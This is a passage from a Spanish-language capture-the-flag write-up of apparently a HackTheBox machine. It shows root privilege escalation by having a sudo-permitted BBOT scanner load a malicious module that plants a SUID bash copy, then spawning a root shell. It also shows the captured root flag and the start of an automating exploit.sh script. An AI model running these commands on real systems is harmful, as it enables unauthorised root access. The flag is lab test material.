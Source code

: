 ```bash
```

Verificamos que el módulo se ha importado correctamente en `BBOT`, con lo cual si todo ha funcionado correctamente, al cargar el módulo en `BBOT`, también ha tenido que ejecutar el comando malicioso que hemos inyectado en el módulo.

```bash
graphasm@cypher:/tmp$ sudo /usr/local/bin/bbot -p /tmp/myconf.yml -l | grep whois2
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

| whois2               | scan     | No              | Query WhoisXMLAPI for WHOIS    | passive, safe                  | DNS_NAME             | WHOIS                |
```

Revisamos los permisos de `/bin/bash` que debería disponer de los permisos por defecto, por otro lado, al revisar la copia que se nos ha creado del binario en `/tmp/gzzcoo`, comprobamos que tiene permisos de `SUID` y que el propietario es `root`.

Con lo cual, al obtener permisos de `SUID` podemos obtener una `bash` como el propietario con el parémtro `-p` y como el propietario es `root`, accederemos con el usuario con máximos privilegios del sistema.

Finalmente logramos acceder como `root` y visualizar la flag **root.txt**.

```bash
graphasm@cypher:/tmp$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
graphasm@cypher:/tmp$ ls -l /tmp/gzzcoo
-rwsr-xr-x 1 root root 1446024 Mar  4 17:39 /tmp/gzzcoo
graphasm@cypher:/tmp$ /tmp/gzzcoo -p
gzzcoo-5.2# whoami
root
gzzcoo-5.2# cat /root/root.txt 
d497deda3f97174b93d787874b5869b2
```

También hemos creado el siguiente script en `Bash` que automatiza este último proceso automáticamente.

{% code title="exploit.sh" %}
```bash
#!/bin/bash
set -e

# Paso 1: Crear archivo de configuración
echo "Creando configuración BBOT maliciosa..."
cat << EOF > /tmp/myconf.yml
module_dirs:
  - /tmp/modules
EOF

# Paso 2: Crear directorio de módulos
echo "Creando directorio de módulos..."
mkdir -p /tmp/modules

# Paso 3: Crear módulo malicioso
echo "Creando modulo malicioso 'whois2'..."
cat << 'EOF' > /tmp/modules/whois2.py
from bbot.modules.base import BaseModule
import os
```